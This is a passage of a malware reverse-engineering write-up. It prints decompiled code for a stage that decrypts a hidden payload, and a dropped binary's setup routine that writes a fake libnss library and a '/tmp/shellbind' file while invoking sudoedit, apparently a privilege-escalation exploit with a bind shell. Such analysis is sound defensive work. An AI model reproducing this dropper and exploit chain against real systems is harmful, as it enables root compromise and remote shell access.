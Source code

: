 As usual, this value is a key to decrypt the next payload, but once again the `jmp $0` trick will help us and we can dump the "final" stage:

```c

void fork_and_spawn()
{
  __m128i *key; // rbx
  __int64 v1; // rax
  _BYTE v2[1648]; // [rsp-1CF8h] [rbp-DD10h] BYREF
  __int64 v3; // [rsp-1688h] [rbp-D6A0h] BYREF
  _QWORD v4[5841]; // [rsp-688h] [rbp-C6A0h] BYREF

  while ( &v3 != &v4[-6144] )
    ;
  v4[5631] = __readfsqword(0x28u);
  memcpy_0(v2, &unk_ECB08, 50784);
  key = (__m128i *)sh_malloc(64LL, "evalstring.c", 401LL);
  key->m128i_i64[0] = 0LL;
  key->m128i_i64[1] = 0LL;
  key[1].m128i_i64[0] = 0LL;
  key[1].m128i_i64[1] = 0LL;
  key[2].m128i_i64[0] = 0LL;
  key[2].m128i_i64[1] = 0LL;
  key[3].m128i_i64[0] = 0LL;
  key[3].m128i_i64[1] = 0LL;
  *key = _mm_load_si128((const __m128i *)&xmmword_14F220);
  key[1] = _mm_load_si128((const __m128i *)&xmmword_14F230);
  key[2] = _mm_load_si128((const __m128i *)&xmmword_14F240);
  key[3] = _mm_load_si128((const __m128i *)&xmmword_14F250);
  v1 = sh_malloc(50784LL, "evalstring.c", 404LL);
  cryptoshit_again((__int64)key, (__int64)v2, v1, 50784LL, 64LL);
  while ( 1 ) // jmp $0 rocks :þ
    ;
}

```
We finally see the end of the tunnel, and dump the dropped ELF with gdb after attaching to the process.

## Final flash

After having dumped the ELF, we open it on IDA. This time, no weird tricks and IDA shows us the main function directly. The main function is useless because it just calls "sudoedit" with shitty arguments.

But remember, init functions can be called by `__libc_csu_init`, and it's the case here. We have a `setup` function, which does this:
```c

int __fastcall setup(__int64 a1, __mode_t a2)
{
  FILE *s; // [rsp+8h] [rbp-8h]
  FILE *sa; // [rsp+8h] [rbp-8h]

  mkdir("libnss_X", a2);
  s = fopen("libnss_X/A .so.2", "w");
  fwrite(&libData, 1uLL, 0x4080uLL, s);
  fclose(s);
  sa = fopen("/tmp/shellbind", "w");
  fwrite(&shellData, 1uLL, 0x4300uLL, sa);
  return fclose(sa);
}

```